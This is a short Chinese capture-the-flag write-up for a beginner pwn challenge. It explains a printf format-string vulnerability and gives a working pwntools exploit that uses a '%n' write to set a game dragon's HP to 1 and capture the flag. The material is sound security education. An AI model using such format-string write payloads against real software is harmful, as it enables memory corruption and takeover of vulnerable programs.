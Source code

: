 ```yaml
---
title: format level1
date: 2023/9/25 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`format_level1`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

程序员斗恶龙的故事开始了！由于我们先攻击龙，
所以我们的目标是我们的atk>龙的hp即可  
程序中我们的初始atk为1，而龙的hp为10M，每次沉淀可以增加1点atk  
~~那么只要沉淀10,000,000次就可以秒杀恶龙了~~  
程序中存在printf漏洞，将大数字注入atk较难，但将小数字注入hp却较简单，
只要将龙的血量置1，就可以达成目标，拿到flag

程序未开启PIE，所以地址没有偏移，方便直接注入；
通过gdb调试可知，`talk`函数中printf漏洞的str位于栈上第7个，
由此可构造如下exp进行血量修改

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 38469)
sh.sendline(b'2') # 练习时长1坤年，作者也是小黑子
sh.sendline(b'3') # talk with dragon
dragonhpAddr = 0x0804c00c
sh.sendline(b'0%9$n000' + p32(dragonhpAddr)) # write 1 to addr (1x'0')
sh.sendline(b'1') # attack the dragon
sh.interactive()
```

> 注：arg7:'0%9$', arg8:'n000', arg9:dragonAddr；所有0都是占位符，无实际含义

这道题构造payload时出了点小问题：sendline太快，最后的`1`没读到，
要重新打，服务器读取问题要考虑！遇到这种情况就要使用sendlineafter()

Done.
